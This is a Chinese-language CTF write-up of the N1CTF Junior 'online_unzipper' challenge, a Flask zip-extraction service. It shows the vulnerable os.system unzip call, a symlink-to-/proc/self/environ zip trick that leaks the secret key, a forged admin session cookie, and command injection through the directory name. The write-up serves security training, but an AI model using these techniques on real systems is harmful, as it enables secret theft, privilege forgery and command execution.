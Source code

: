 N1CTF Junior 3rd 2/2(Jeopardy) 复现

#### online_unzipper

```
online_unzipper
```

核心代码

```python
@app.route("/upload", methods=["GET", "POST"])
def upload():
    if "username" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        file = request.files["file"]
        if not file:
            return "未选择文件"

        role = session["role"]

        if role == "admin":
            dirname = request.form.get("dirname") or str(uuid.uuid4())
        else:
            dirname = str(uuid.uuid4())

        target_dir = os.path.join(UPLOAD_FOLDER, dirname)
        os.makedirs(target_dir, exist_ok=True)

        zip_path = os.path.join(target_dir, "upload.zip")
        file.save(zip_path)

        try:
            os.system(f"unzip -o {zip_path} -d {target_dir}")
        except:
            return "解压失败，请检查文件格式"

        os.remove(zip_path)
        return f"解压完成！<br>下载地址: <a href='{url_for('download', folder=dirname)}'>{request.host_url}download/{dirname}</a>"

    return render_template("upload.html")
```

发现admin可以直接将保存名设置为文件名，这里可以导致文件名的命令注入。但是注册后默认是user，考虑篡改session来改成admin。

```python
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "test_key")
```

想要篡改session要先获取```flask secret_key```，发现可以从环境变量```FLASK_SECRET_KEY```中获取，故可以找方法尝试访问```/proc/self/environ```

通过学习后发现可以构造带有指向```/proc/self/environ```的符号链接文件并压缩上传

```shell
ln -s -T /proc/self/environ my_link_file
zip -y my_archive.zip my_link_file
```

上传```my_archive.zip```后可以下载```my_link_file```，读取到了环境变量

```tex
HOSTNAME=79556ae2b6cf HOME=/root GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_SHA256=8fb5f9fbc7609fa822cb31549884575db7fd9657cbffb89510b5d7975963a83a FLASK_APP=app.py FLASK_RUN_HOST=0.0.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 FLASK_SECRET_KEY=test PYTHON_VERSION=3.11.13 PWD=/app FLAG= 
```

得到```FLASK_SECRET_KEY=test```，现在可以构造session来修改成admin权限，使用flask_session_cookie_manager工具来伪造session

```cmd
python .\flask_session_cookie_manager3.py encode -s 'test' -t "{'role':'admin','username':'123'}"
eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6IjEyMyJ9.aMldaQ.CkPpAM5fpdijLJIUVLHAedFpVGk
```

得到的session改完后，刷新发现变成了admin了，现在可以构造文件名来将flag移动到能够读取的```/uploads/```下来读取flag（至于为什么要移动到/upload/下，是因为这个文件夹存在且其下面的文件可以被读取，下载附件可以看到容器中是有```/uploads/```这个文件夹的）

在dirname后拼接命令，可以让

```python
os.system(f"unzip -o {zip_path} -d {target_dir}")
```

执行的时候拼接的命令

![image-20250916214542711](.\image\image-20250916214542711.png)

（这里先创建```/uploads/123/```文件夹，才能够move）

![image-20250916214514358](.\image\image-20250916214514358.png)

最后访问```/downloads/123```，可以下载flag

![image-20250916214647724](.\image\image-20250916214647724.png)

最后这个命令拼接构造尝试了好久，是根据docker desktop里面的命令执行返回信息来进行进一步修改的，正式比赛的时候需要最大化利用题目给的题目源码和docker，并且可以适当修改代码来获取debug信息，便于自己更好地理解。
